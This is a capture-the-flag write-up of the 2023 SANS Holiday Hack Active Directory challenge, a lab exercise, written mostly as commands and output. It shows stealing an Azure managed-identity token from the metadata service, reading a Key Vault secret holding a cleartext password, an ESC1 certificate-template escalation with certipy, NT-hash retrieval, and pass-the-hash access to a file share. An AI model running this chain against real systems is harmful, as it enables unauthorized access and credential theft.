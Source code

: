 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## 	Active Directory
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

### Hints
#### Useful Tools
*From: Ribb Bonbowford*
It looks like Alabaster's SSH account has a couple of tools installed which might prove useful.
#### Misconfiguration ADventures
*From: Alabaster Snowball*
Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

### Solution
I went back as `alabaster` on the `ssh-server-vm` from [Certificate SSHenanigans]() and realized the reason for the `impacket` folder. I started poking around with Azure APIs a little more, discovering an Azure Key Vault resource:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?api-version=2021-04-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}}]}
```
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-10-30T13:17:02.532Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-10-30T13:17:02.532Z"},"properties":{"sku":{"family":"A","name":"Standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[],"enabledForDeployment":false,"enabledForDiskEncryption":false,"enabledForTemplateDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"enableRbacAuthorization":true,"vaultUri":"https://northpole-it-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-11-12T01:47:13.059Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-11-12T01:50:52.742Z"},"properties":{"sku":{"family":"A","name":"standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"0bc7ae9d-292d-4742-8830-68d12469d759","permissions":{"keys":["all"],"secrets":["all"],"certificates":["all"],"storage":["all"]}},{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"1b202351-8c85-46f1-81f8-5528e92eb7ce","permissions":{"secrets":["get"]}}],"enabledForDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"vaultUri":"https://northpole-ssh-certs-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}}],"nextLink":"https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01&$skiptoken=bm9ydGhwb2xlLXJnMXxub3J0aHBvbGUtc3NoLWNlcnRzLWt2"}
```

Switching token for the resource https://vault.azure.net, I was able to get the content of the Vault:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4
{"value":[{"id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}],"nextLink":null}
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4
{"value":"Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru","id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}
```

The secret contains the following Powershell script with hardcoded credentials in clear text:
```cmd
Import-Module ActiveDirectory;
$UserName = "elfy";
$UserDomain = "northpole.local";
$UserUPN = "$UserName@$UserDomain";
$Password = ConvertTo-SecureString "J4`ufC49/J4766" -AsPlainText -Force;
$DCIP = "10.0.0.53";
New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname "" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru
```

I then ran certipy to obtain vulnerable certificate configurations from AD:
```bash
alabaster@ssh-server-vm:~/impacket$ certipy find -u elfy@northpole.local -p 'J4`ufC49/J4766' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20231217214704_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231217214704_Certipy.txt'
[*] Saved JSON output to '20231217214704_Certipy.json'
```

Looking at the output from `certipy`, I observed that the `NorthPoleUsers` template was vulnerable:
```bash
  # Output removed to shorten report
  "Certificate Templates": {
    "0": {
      "Template Name": "NorthPoleUsers",
      "Display Name": "NorthPoleUsers",
      "Certificate Authorities": ["northpole-npdc01-CA"],
      # Output removed to shorten report
      "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject, and template allows client authentication"
      }
    }
  },
```

Based on that, I started the exploitation:
```bash
alabaster@ssh-server-vm:~/impacket$ lookupsid.py 'northpole.local/elfy:J4`ufC49/J4766@10.0.0.53'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.0.0.53
[*] StringBinding ncacn_np:10.0.0.53[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1338289034-4095587347-713453443
# Output removed to shorten report
1103: NORTHPOLE\researchers (SidTypeGroup)
1104: NORTHPOLE\elfy (SidTypeUser)
1105: NORTHPOLE\wombleycube (SidTypeUser)
# Output removed to shorten report
```
```bash
alabaster@ssh-server-vm:~/impacket$ certipy auth -pfx 'wombleycube.pfx' -username 'wombleycube' -domain 'northpole.local' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```
```bash
alabaster@ssh-server-vm:~/impacket$ smbclient.py -dc-ip 10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 -target-ip 10.0.0.53 northpole.local/wombleycube@npdc01.northpole.local
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
# use FileShare
# cd super_secret_research
# ls
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 .
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 ..
-rw-rw-rw-        231  Sun Dec 17 01:15:12 2023 InstructionsForEnteringSatelliteGroundStation.txt
```

The filename `InstructionsForEnteringSatelliteGroundStation.txt` is the flag and once downloaded I could get the content which will be useful for the Speaker Access:
```
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```